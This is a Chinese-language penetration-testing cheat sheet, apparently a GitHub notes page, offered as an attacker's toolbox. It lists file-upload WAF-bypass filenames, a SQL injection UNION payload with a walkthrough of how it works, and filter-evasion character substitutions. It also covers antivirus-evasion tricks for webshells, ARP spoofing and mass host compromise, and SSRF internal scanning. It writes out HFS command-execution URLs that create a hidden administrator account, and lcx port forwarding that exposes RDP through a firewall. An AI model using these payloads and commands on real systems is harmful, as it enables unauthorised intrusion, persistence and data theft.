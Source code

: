 # 工具箱

otype=3
JSFinder


## WAF绕过

Content-Disposition
filename
Content-Type
filename="x.php%00.jpg"
filename=php.php 
"php.php
filename= ;filename="php.php"
filename="x.
p
h
p
"

## sql注入

%23a%0A是一种常见的SQL注释语法

%23表示字符#的URL编码形式，用于注释掉SQL语句中#后面的所有内容。这种方式也被称为"哈希注释"。
%0A表示换行符的URL编码形式，用于在SQL语句中插入一个新行，从而避免一些简单的换行符过滤器。这种方式也被称为"换行符注入"。
因此，将%23a%0A插入到SQL注入攻击负载中，可以将注入语句的后面部分注释掉，并在新行中插入后续攻击负载。例如，假设以下是一段受攻击的SQL查询语句：

SELECT * FROM users WHERE username = 'admin' AND password = '$password';
如果攻击者想要绕过该查询并获取所有用户数据，他们可以尝试使用以下攻击负载：

' or 1=1 %23a%0A UNION SELECT *FROM users--
在这个攻击负载中，%23a%0A将注释掉后面的AND password = '$password'部分，并在新行中插入攻击负载"UNION SELECT* FROM users--"。这个攻击负载将返回所有用户数据，因为它使用了UNION操作符来将攻击者的查询结果合并到原始查询结果中。

- 等价字符
 空格： %20 + () %0a %09 %a0 %0b %0c %0d /**/
 = : like regexp liker <> !=
 and : &&
 or: xor & ^ ||

## 文件上传

- 客户端
>
> 1. js检查
>
- 服务端

### 检查后缀

#### 黑名单

>  1. 上传特殊可解析后缀
>  2. 上传.htaccess
>  3. 后缀大小写绕过
>  4. 点绕过
>  5. 空格绕过
>  6. ::$DATA绕过
>  7. 配合解析漏洞
   > 7.1 Apache陌生后缀解析漏洞
   > 7.2 Apache换行解析漏洞
 > 8. 双后缀名绕过
>
#### 白名单
>
>  1. MIME绕过
>  2. %00截断
>  3. 0x00截断
>
### 检查内容
>
>  1. 文件头检查
>  2. 突破getimagesize()
>  3. 突破exif_imagetype()
>  4. 二次渲染
>
### 代码逻辑
 >
 > 1.条件竞争

## 免杀

- 函数替换
- 自定义函数
- 回调函数
- 编码绕过
- 函数字符串拆分组合

[免杀-https://xz.aliyun.com/t/5152](https://xz.aliyun.com/t/5152 )

## 横向渗透

135批量抓鸡
arp欺骗-netfuke-kali arpspoof
 -内网渗透
  主机发现->存活主机(MAC,IP,计算机名)
  扫描主机-> port system 漏洞等
  攻击主机
  取得权限

## SSRF

**扫内网**
a : 192.168.38.129
b : 27.19.126.82 192.168.0.101
c : 192.168.0.106
a能链接b
b能链接c
a不能链接c
攻击者a访问： <http://192.168.0.101/ssrf/index.php?url=192.168.0.106:80>
通过b的ssrf漏洞去探针c的80端口 **192.168.0.1 ~ 192.168.0.255**

HFS命令执行
<http://127.0.0.1/?search==%00{.exec|cmd> /c net user DEF DEFHACKER123 /add.}
<http://127.0.0.1/?search==%00{.exec|cmd> /c net localgroup Administrators  DEF  /add.}

## 端口转发

实现数据连接 绕过防火墙
让内网主动将数据给到外网
a可以链接b b不能链接a
a充当内网地址 b充当外网地址

a 192.168.38.130
lcx.exe -slave 192.168.0.106 3333 127.0.0.1 3389
将本地的3389端口转发到192.168.0.106的3333端口上去

b 192.168.0.106
lcx.exe -listen 3333 1111
监听本地3333端口转发到1111
然后链接本地的1111
